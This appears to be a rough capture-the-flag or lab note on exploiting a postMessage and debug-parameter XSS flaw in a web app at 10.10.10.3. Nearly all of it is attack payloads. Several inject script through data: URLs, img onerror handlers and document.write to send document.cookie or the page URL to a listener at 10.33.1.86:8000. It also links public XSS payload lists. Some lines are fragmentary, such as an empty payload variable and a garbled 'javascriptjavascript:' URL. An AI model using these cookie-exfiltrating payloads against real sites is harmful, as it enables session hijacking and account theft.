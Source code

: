 # B/W


Ip `10.10.10.3`

open port 80

# Available directory

admin
assets


# Simil payload

Query param debug=true enabled an event handler of message.

We can send a payload that will be encoded e passed as event ed inserted in a div

```js
payload   = ;

window.postMessage([...''].map(i => String.fromCharCode(i.charCodeAt(0) - 3)).map(i=>String(i)), 'http://10.10.10.3')
```

In `feat.js` the code will render the payload but... why 


#PAYLOAD

`data:text/html;charset=utf-8,<script>fetch('http://10.33.1.86:8000/index.php', {method:'post',body:document.cookie}).then(res=>res.text()).then(console.info).catch(console.error)</script>`


## tring with postMessage

`data:text/html;charset=utf-8,<script>window.postMessage(document.cookie)</script>`


- https://samy.blog/element.innerhtml-and-xss-payloads/
- https://github.com/payloadbox/xss-payload-list

data:text/html;charset=utf-8,<script>document.write('&lt;script>alert(document.domain)</scr'+'ipt&gt;')</script>

`http://10.10.10.3/?debug=true&url=data%3Atext/html%3Bcharset%3Dutf-8%2C<img%20src%3D"x"%20onerror%3D"window.location.href%3D%27http%3A//10.33.1.86%3A8000%3Fd%3D%27%2Bwindow.location.href">`

```
<script>document.write('<img+src%3D\"http%3A%2F%2F10.33.1.86%3A8000%2F%3Fc%3D'%2BencodeURIComponent(document.cookie)%2B'\">')<%2Fscript>
```

```
http://10.10.10.3/?debug=true&url=data%3Atext%2Fhtml%3Bcharset%3Dutf-8%2C%27%3Cimg%2Bsrc%3Dx%2Bonerror%3D%22window.open%28%27http%3A%2F%2F10.33.1.86%3A8000%2F%3Fc%3D%27%2Bdocument.cookie%29%22%3E
```

`http://10.10.10.3/?url=javascriptjavascript:window.open(%27http://10.33.1.86:8000/%27%2bdocument.domain)`
